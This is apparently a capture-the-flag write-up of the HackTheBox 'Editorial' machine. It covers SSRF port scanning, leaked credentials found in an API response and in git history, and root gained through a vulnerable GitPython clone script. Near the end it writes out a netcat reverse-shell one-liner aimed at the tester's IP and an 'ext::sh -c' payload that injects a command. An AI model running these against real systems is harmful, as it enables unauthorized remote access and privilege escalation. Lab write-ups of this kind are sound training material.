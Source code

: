 +++
title = 'Editorial'
date = 2024-06-16T16:19:06+03:00
draft = false 
tags = ['htb', 'writeup']
summary = '[Editorial](https://app.hackthebox.com/machines/608) is an easy Linux CTF box, that is a part of the HackTheBox season 5 machines. It requires basic web vulnerability, git, and Linux privilege escalation knowledge. Machine created by [Lanz](https://app.hackthebox.com/users/73707) *+respict*.'
description = '"Editorial" is an easy Linux CTF machine. Released on 15th of June, 2024 (HackTheBox)'
thumbnail = 'img/ed-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection `sudo nmap -v -sC -sV -oN scans/nmap/init $IP`:

```text
Nmap scan report for 10.10.11.20
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two services were found. The more interesting one is obviously the web server running on `Nginx`. On the web server we are greeted with:

![](img/ed-webpage.png)

### Web Application 

The more interesting functionality is definitely the upload & cover functionality. This is found under `http://editorial.htb/upload`.

![](img/ed-cover-functionality.png)

After that I tested for server side request forgery (`SSRF`). I noticed that when we send a request to a closed / open port the website responds differently:
- `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` (closed)
- `static/uploads/5063d778-6478-4b48-aa30-0016c233cd2d` (open)

I set up an intruder scan to go through all of the ports `1-65535`. Its important to flag any response that does not contain the closed port signature:

![](img/ed-port-fuzz.png)

A hit was found on the port `5000` which reveals an internal API (This requires first the SSRF request, and then a request to the resource):

![](img/ed-internal-api.png)

The following was found in the response of the request:

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```


Exploitation
-----------

### Information Leak

Most of the endpoints did not work; however, the one that did was `/api/latest/metadata/messages/authors`. This endpoint revealed SSH credentials for the user `dev`:

![](img/ed-api-request.png)

![](img/ed-api-leak.png)


Privilege Escalation
====================

Production Access
-----------------

After SSH login I noticed the `~/apps` directory. This turns out to be a git project:

![](img/ed-apps-directory.png)

Looking at `git log` output we see multiple code changes:

![](img/ed-git-log.png)

The following commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` reveales a production users credentials. This can be looked at via `git show`.

![](img/ed-git-leak.png)


Root Access
-----------

Performing basic enumeration for root exploit we find privileges via `sudo -l`, that allow us to run a Python script as root with arbitrary parameter:

```text
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Inspecting the script we find that it is using `GitPython`. The version in use is vulnerable to [Remote Code Execution](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

For exploitation I created a shell script under `/tmp` that contains a reverse shell to my machine:


```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.31 4444 >/tmp/f' >> /tmp/shell.sh
chmod +x /tmp/shell.sh
```

After that we can gain root privileges via:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /tmp/shell.sh'
```

Successful exploitation. Don't forget the flag **`⸜(｡˃ ᵕ ˂ )⸝`**:

![](img/ed-root.png)
